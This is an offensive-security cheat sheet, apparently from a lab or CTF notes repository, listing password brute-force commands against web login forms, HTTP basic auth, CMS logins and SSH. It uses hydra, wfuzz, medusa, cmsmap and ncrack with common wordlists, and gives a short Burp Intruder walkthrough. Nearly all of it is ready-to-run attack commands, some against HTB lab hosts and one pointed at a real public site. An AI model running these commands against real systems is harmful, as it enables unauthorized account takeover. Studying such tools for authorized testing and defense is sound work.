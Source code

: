 ### Web

	hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin

#### Logins

Use Burp suite.

- 1. Intecept a login attempt.
- 2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
- 3. Select your payload, your wordlist.
- 4. Click attack.
- 5. Look for response-length that differs from the rest.
#### HTTP Generic Brute
	wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "[Error message]" -u http://[IP]/login.php -d "username=FUZZ&password=FUZ2Z"

#### HTTP Basic Auth

	hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/

	medusa -h <IP> -u <username> -P <passwords.txt> -M http -m DIR:/path/to/auth -T 10

#### HTTP - Post Form

	hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V

#### HTTP - CMS -- (W)ordpress, (J)oomla or (D)rupal or (M)oodle

	cmsmap -f W/J/D/M -u a -p a https://wordpress.com

#### Hydra attack http get 401 login with a dictionary

	hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin

### SSH

	hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt ssh://$ip

	hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

	hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh

	hydra -l root -P wordlist.txt $ip ssh

	hydra -L userlist.txt -P best1050.txt $ip -s 22 ssh -V

	hydra -l root -P passwords.txt [-t 32] <IP> ssh

	ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
